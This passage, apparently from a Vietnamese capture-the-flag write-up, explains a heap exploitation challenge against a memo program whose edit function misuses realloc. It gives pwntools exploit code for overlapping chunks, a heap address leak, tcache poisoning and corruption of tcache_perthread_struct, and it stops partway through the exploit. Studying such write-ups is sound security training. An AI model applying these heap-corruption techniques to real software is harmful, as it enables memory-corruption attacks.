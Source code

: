 Tóm gọn lại ta có : 
```c 
realloc(NULL,size) -> malloc(size)
realloc(p,0) -> free(p)
realloc(p,old_size) # không có hành vi nào xảy ra
```
Hàm edit không check size của user nhập vào. Không clear pointer khi size=0 -> tạo `overlapping chunk` -> `use after free` và `double free` bug.

Gọi `realloc(mlist[0],0x78)` -> `realloc(mlist[0],0)` -> `realloc(mlist[1],0x78)` ta được 2 pointer `mlist[0]` và `mlist[1]` overlap.
```python 
def Edit(idx: int,size: int,memo: bytes,sendline=True):
    p.sendlineafter(b">",b"1")
    p.sendlineafter(b"Index:",f"{idx}".encode())
    p.sendlineafter(b"Size:",f"{size}".encode())
    if size>1:
        p.sendafter(b"Memo:",memo)
    sleep(0.5)
def List():
    p.sendlineafter(b">",b"2")
Edit(0,0x78,b"A"*8)
Edit(0,0,0)
Edit(1,0x78,b"A"*8)
```
Gọi lại `realloc(mlist[0],0)` ta được `mlist[0]` và `mlist[1]` đều cùng trỏ vào `tcachebins[0x80][0]`.
List để in `mlist[1]` ra ta leak được heap.

```python=
List()
p.recvuntil(b"[1] ")
first_chunk=int(p.recv(5)[::-1].hex(),16)
first_chunk = (first_chunk << 12) +0x290
log.info(f"{hex(first_chunk)}")
tcache_perthread_struct=first_chunk-0x290
```
Ghi đè mlist[0].fd trỏ vào `tcache_perthread_struct* tcache chunk`, ta control được counts và entries.

```python
Edit(1,0x78,p64(0)*2)
Edit(0,0,0)
Edit(1,0x78,p64(((first_chunk+0x10) >> 12 ) ^ (tcache_perthread_struct+0x10))+p64(0))
Edit(2,0x78,b"A"*8)
```
`tcache chunk` có size là 0x290, ghi đè count của `tcachebins[0x290]` thành 7 -> `realloc(tcache,0x78)` ta được unsorted bin.

```python 
Edit(3,0x78,p16(7)*58) #pop mlist[3] ra khỏi tcachebin[0x290]
Edit(3,0x78,p16(0)*6+p16(7)) # realloc(tcache,0x78)
```
![](https://i.imgur.com/O0SewS4.png)
